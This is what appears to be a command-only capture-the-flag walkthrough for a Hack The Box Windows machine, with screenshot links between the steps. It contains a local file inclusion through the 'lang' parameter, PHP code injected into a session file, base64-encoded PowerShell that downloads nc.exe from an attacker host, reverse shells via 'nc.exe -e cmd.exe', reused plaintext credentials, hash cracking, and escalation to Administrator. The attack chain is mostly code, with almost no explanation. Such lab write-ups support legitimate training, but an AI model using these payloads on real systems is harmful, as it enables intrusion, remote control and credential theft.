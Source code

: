 ```
nmap -sS -sC -sV -T5 -Pn 10.10.10.151
```
![image](https://github.com/regarmulia/HTB/assets/33616880/d10ea320-e050-459d-acae-bdd53145239f)


```
dirsearch -u http://10.10.10.151
```
![image](https://github.com/regarmulia/HTB/assets/33616880/f71e06f1-a92b-45f0-9569-36abf5b4fc20)


```
http://10.10.10.151/user/login.php
```
![image](https://github.com/regarmulia/HTB/assets/33616880/3108370e-7d17-4044-bc53-b155a24715db)


```
http://10.10.10.151/blog/?lang=blog-en.php
```
![image](https://github.com/regarmulia/HTB/assets/33616880/1938379a-5aba-4cfc-9a85-664c411c7961)


```
http://10.10.10.151/blog/?lang=/windows/win.ini
```
![image](https://github.com/regarmulia/HTB/assets/33616880/99bed695-53ec-42df-8947-447c03df21ef)

![image](https://github.com/regarmulia/HTB/assets/33616880/be0201a7-e2fa-4074-855b-ee4940d22ddc)


```
curl -X GET http://10.10.10.151/blog/?lang=/windows/win.ini
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c1f65f6b-d039-409d-bf41-6a184857e0b1)

![image](https://github.com/regarmulia/HTB/assets/33616880/8f1d5518-7621-4482-820f-7ec6398a654c)


```
register: sahrul / sahrul
```
![image](https://github.com/regarmulia/HTB/assets/33616880/8bc2d8e8-ab6b-4326-94b7-ce39e1bde815)

![image](https://github.com/regarmulia/HTB/assets/33616880/ff3420ae-e34e-429b-b476-d220a6ed407c)


```
curl -X GET http://10.10.10.151/blog/?lang=/windows/temp/sess_5hvbj099bc64r0jnqfoatc9k4k
```
![image](https://github.com/regarmulia/HTB/assets/33616880/0ff25a5e-e668-4a61-b1a3-7fdc8c35758d)


```
<?=`powershell whoami`?> / pass123
curl -X GET http://10.10.10.151/blog/?lang=/windows/temp/sess_5hvbj099bc64r0jnqfoatc9k4k
```
![image](https://github.com/regarmulia/HTB/assets/33616880/37fbe64e-402f-468f-bf77-430b8032a3dc)


```
echo "wget http://10.10.14.2/nc.exe -o C:\\Windows\\TEMP\\nc.exe" | iconv -t UTF-16LE | base64
<?=`powershell /enc dwBnAGUAdAAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMgAvAG4AYwAuAGUAeABlACAALQBvACAAQwA6AFwAVwBpAG4AZABvAHcAcwBcAFQARQBNAFAACgBjAC4AZQB4AGUACgA=`?>
curl -X GET http://10.10.10.151/blog/?lang=/windows/temp/sess_5hvbj099bc64r0jnqfoatc9k4k
```
![image](https://github.com/regarmulia/HTB/assets/33616880/ffc7a306-0748-48d2-80d8-3d3eaa0a336a)

![image](https://github.com/regarmulia/HTB/assets/33616880/eaa0c1cc-0bde-4075-8887-61603ff1ee7b)


```
echo "C:\Windows\TEMP\nc.exe -e cmd.exe 10.10.14.2 4444" | iconv -t UTF-16LE | base64
<?=`powershell /enc QwA6AFwAVwBpAG4AZABvAHcAcwBcAFQARQBNAFAACgBjAC4AZQB4AGUAIAAtAGUAIABjAG0AZAAuAGUAeABlACAAMQAwAC4AMQAwAC4AMQA0AC4AMgAgADQANAA0ADQACgA=`?>
curl -X GET http://10.10.10.151/blog/?lang=/windows/temp/sess_5hvbj099bc64r0jnqfoatc9k4k
```
![image](https://github.com/regarmulia/HTB/assets/33616880/122a5a22-49fd-41a7-898d-2ba9e806c273)


```
more C:\inetpub\wwwroot\user\db.php
$password = convertto-securestring -AsPlainText -Force -String
"36mEAhz/B8xQ~2VM";
$credential = new-object -typename System.Management.Automation.PSCredential -
argumentlist "SNIPER\chris",$password;
Invoke-Command -ComputerName LOCALHOST -ScriptBlock { wget
http://10.10.14.23/nc.exe -o C:\Users\chris\nc.exe } -credential $credential;
Invoke-Command -ComputerName LOCALHOST -ScriptBlock { C:\Users\chris\nc.exe -e
cmd.exe 10.10.14.23 4444} -credential $credential;
```


```
wget http://10.10.14.23/instructions.chm -o C:\Users\chris\instructions.chm
hashcat -m 5600 --force hash.txt rockyou.txt
$password = convertto-securestring -AsPlainText -Force -String "butterfly!#1";
$credential = new-object -typename System.Management.Automation.PSCredential -
argumentlist "SNIPER\Administrator",$password;
Invoke-Command -ComputerName LOCALHOST -ScriptBlock { C:\Users\chris\nc.exe -e
cmd.exe 10.10.14.23 5555} -credential $credential;
```
